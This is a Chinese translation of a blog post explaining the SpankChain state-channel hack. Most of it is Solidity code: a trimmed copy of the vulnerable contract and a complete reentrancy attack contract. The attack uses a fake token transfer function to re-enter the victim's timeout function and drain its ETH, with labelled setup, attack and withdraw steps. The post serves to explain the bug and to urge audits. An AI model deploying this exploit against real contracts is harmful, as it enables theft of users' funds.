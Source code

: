 # 痛打一顿

> 原文：<https://medium.com/coinmonks/lashing-out-at-a-spank-channel-2b42b23f0dc6?source=collection_archive---------2----------------------->

![](img/e0f67feb1dfbf6fa5eb546d8a3fb252d.png)

Penny Arcade classic

*或者我多么希望周末能远离电脑。*

上周，一家非常有趣、非常酷的区块链初创公司，绝对值得尊敬，被黑客攻击了。

事实证明，这是一次有用的黑客攻击。该团队不仅从外部审计的重要性中学到了很好的一课，攻击者还在最早的一个[州渠道](https://github.com/jpantunes/awesome-cryptoeconomics#state-channels)合同的 *mainnet* 实现中发现了一个共同的攻击媒介，最终所有相关方都得到了他们的钱(回来)。

关键的发现是，仅仅基于函数签名就相信用户提供的合同地址如预期的那样运行是一个危险的假设。

基于实际的漏洞，我将演示攻击者的代码可能是什么样子，但是将我们需要覆盖的[原始代码](https://etherscan.io/address/0xf91546835f756da0c10cfa0cda95b15577b84aa7#code)的数量减少到最小。

```
pragma solidity 0.4.25;contract HumanStandardToken {
    function transfer(address _to, uint256 _value) public returns (bool success);
}contract SpankChannel { 
    struct Channel {
        address[2] partyAddresses; *// 0: partyA 1: partyI*
        uint256[4] ethBalances; *// 0: balanceA 1:balanceI 2:depositedA 3:depositedI*
        uint256[4] erc20Balances; *// 0: balanceA 1:balanceI 2:depositedA 3:depositedI*
        uint256[2] initialDeposit; *// 0: eth 1: tokens*
        uint256 sequence;
        uint256 confirmTime;
        bytes32 VCrootHash;
        uint256 LCopenTimeout;
        uint256 updateLCtimeout; *// when update LC times out*
        bool isOpen; *// true when both parties have joined*
        bool isUpdateLCSettling;
        uint256 numOpenVC;
        HumanStandardToken token;
    }    
    mapping(bytes32 => Channel) public Channels;

    event DidLCClose (
        bytes32 indexed channelId, 
        uint256 sequence, 
        uint256 ethBalanceA,
        uint256 tokenBalanceA, 
        uint256 ethBalanceI, 
        uint256 tokenBalanceI
    ); function LCOpenTimeout(bytes32 _lcID) public {
        require(msg.sender == Channels[_lcID].partyAddresses[0] 
                && Channels[_lcID].isOpen == false
        );
        require(now > Channels[_lcID].LCopenTimeout);

        if(Channels[_lcID].initialDeposit[0] != 0) {   
            Channels[_lcID].partyAddresses[0].transfer(                        
                            Channels[_lcID].ethBalances[0]
            );
        }
        if(Channels[_lcID].initialDeposit[1] != 0) {
            require(Channels[_lcID].token.transfer(
                            Channels[_lcID].partyAddresses[0], 
                            Channels[_lcID].erc20Balances[0]),
                            "CreateChannel: token transfer failure"
            );
        }
        emit DidLCClose(
            _lcID, 
            0, 
            Channels[_lcID].ethBalances[0],
            Channels[_lcID].erc20Balances[0], 
            0, 
            0
        );
        delete Channels[_lcID];
    }

*// for illustration purposes, simplified attack setup* 
    constructor() public payable {
        *//pre-load the state-channel contract on deployment*
        *//the attack will drain all eth balance from this contract*
    }
    function initAttack(bytes32 _lcID) public {
        Channels[_lcID].partyAddresses[0] = msg.sender;
        Channels[_lcID].token = HumanStandardToken(msg.sender);        
        Channels[_lcID].isOpen = false;
        Channels[_lcID].LCopenTimeout = now - 1 days;
        Channels[_lcID].ethBalances[0] = address(this).balance;           
        Channels[_lcID].initialDeposit[0] = 1 ether;
        Channels[_lcID].initialDeposit[1] = 1 ether; 
        Channels[_lcID].erc20Balances[0] = 1 ether;
    }
}contract Lashing is HumanStandardToken { SpankChannel victim;
    bytes32 public lcID = "A wild reentrancy appears";*// payable fallback* 
    function() public payable {
        if (address(victim).balance >= msg.value)
            attack();
    }
*// ERC20-ish transfer function (same sig, different logic)* 
    function transfer(address _to, uint256 _value) 
        public 
        returns (bool success) 
    {
        if (address(victim).balance >= _value)
            _to.transfer(_value);
            return true;
    }
*// 1 - prime the victim contract* 
    function setup(address _victim) public{
        victim = SpankChannel(_victim);
        victim.initAttack(lcID);
    }
*// 2 - run attack* 
    function attack() public {
        victim.LCOpenTimeout(lcID);
    }
*// 3 - check if attack was success* 
    function getBalances() 
        public 
        view 
        returns(uint256 vicETH , uint256 myETH) 
    {
        return (
            address(victim).balance, 
            address(this).balance
        );
    }
*// 4 - profit!* 
    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }
}
```

该漏洞存在于`LCOpenTimeout` 功能中。攻击利用恶意的`transfer`功能，在到达`delete Channels[_lcID]`线之前重新进入受害者的合同。攻击者的代码被受害者合同中的`Channels[_lcID].token.transfer`指令调用，并在`Channels[_lcID].partyAddresses[0].transfer(Channels[_lcID].ethBalances[0])`指令上循环，将受害者的所有 ETH 余额转移给攻击者。

没错。这是几年前攻击 DAO 的同一个旧的重新进入错误。聪明的合同开发者需要[纪律](https://www.youtube.com/watch?v=I1ZMKfFHU3U)否则他们会冒偶尔被狠狠揍一顿的风险。

*   免责声明:我在 ICO 期间从这个项目中购买了一些代币，我相信这个项目会成功。

> [直接在您的收件箱中获取最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[![](img/7c0b3dfdcbfea594cc0ae7d4f9bf6fcb.png)](https://coincodecap.com/?utm_source=coinmonks)